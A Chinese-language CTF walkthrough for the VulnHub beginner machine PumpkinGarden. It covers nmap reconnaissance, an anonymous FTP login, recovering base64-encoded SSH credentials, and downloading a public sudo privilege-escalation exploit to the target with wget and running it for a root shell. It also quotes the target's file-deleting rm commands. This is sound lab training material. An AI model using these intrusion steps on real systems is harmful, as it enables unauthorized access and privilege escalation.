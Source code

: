 # PumpkinGarden-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkingarden,321/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinGarden is Level 1 of series of 3 machines under Mission-Pumpkin v1.0. The end goal of this CTF is to gain access to PumpkinGarden_key file stored in the root account.

**知识点**

无重要知识点

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.128` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.128
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/2.png)

从 nmap 的探测结果看，存在 ftp、http、ssh 服务,且 ftp 允许匿名登录，vsftpd 的版本是 2.0.8 或之后，也没找到可利用的漏洞

从 ftp 匿名登录入手
```
ftp 192.168.141.128
    anonymous
    密码为空,直接回车
ls
get note.txt
bye
```

看一下发现的 note.txt
```
cat note.txt
Hello Dear!
Looking for route map to PumpkinGarden? I think jack can help you find it.
```

提示说 jack 可以帮助你，可能是个用户名。

看下 http 的情况

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/3.png)

一个南瓜猫猫头,页面上没有可交互的内容, Ctrl+U 看下源码

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/4.png)

```
searching for the route map? Pumpkin images may help you find the way
```
提示图片有些东西,访问 `/img` 路径下

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/5.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/6.png)

像个 base64
```bash
echo "c2NhcmVjcm93IDogNVFuQCR5" | base64 -d
scarecrow : 5Qn@$y
```

看上去是 ssh 的账号密码,登上去试试

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/7.png)

home 目录里的 note.txt 给出了 goblin Y0n$M4sy3D1t 这个账号密码，su 切换过去

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/8.png)

按照 goblin home 目录 note 文件给出的提示

下载 https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

> 注 : 我访问报 503 Service Temporarily Unavailable ,下载 https://www.exploit-db.com/exploits/11651 这个也一样

> 注意 : https://www.exploit-db.com/exploits/11651 的存在 /bin/sh^M : bad interpreter 问题

kali 下载 payload
```bash
wget https://www.exploit-db.com/download/11651

vim 11651
:set ff=unix
:wq!

python -m SimpleHTTPServer 8000
```

靶机下载,运行
```bash
cd
wget 192.168.141.134:8000/11651
chmod +x 11651
./11651 /bin/sh
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/9.png)

---

后台运行了删除脚本的命令
```bash
/bin/sh -c sleep 30; rm /home/goblin/*.*
/bin/sh -c sleep 30; rm /tmp/*
```

我这里是在 goblin 用户的 home 目录下运行的,且没给他后缀名,所以没受影响 :)
